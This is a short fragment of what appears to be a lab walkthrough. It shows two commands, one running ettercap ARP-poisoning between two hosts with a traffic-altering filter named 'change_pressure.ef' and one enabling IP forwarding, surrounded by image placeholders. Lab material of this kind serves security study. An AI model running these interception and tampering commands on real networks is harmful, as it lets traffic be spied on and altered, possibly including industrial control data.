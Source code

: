 <p align="center"><img src=images/Picture110.png></p>

<div align="center">Run ettercap -T -q -F change_pressure.ef -M arp:remote -I eth0 /100.100.100.2// /100.100.100.4//&</div>
<p align="center"><img src=images/Picture111.png></p>

<div align="center">Run echo 1 > /proc/sys/net/ipv4/ip_forward to forward the IPv4 traffic</div>
<p align="center"><img src=images/Picture112.png></p>
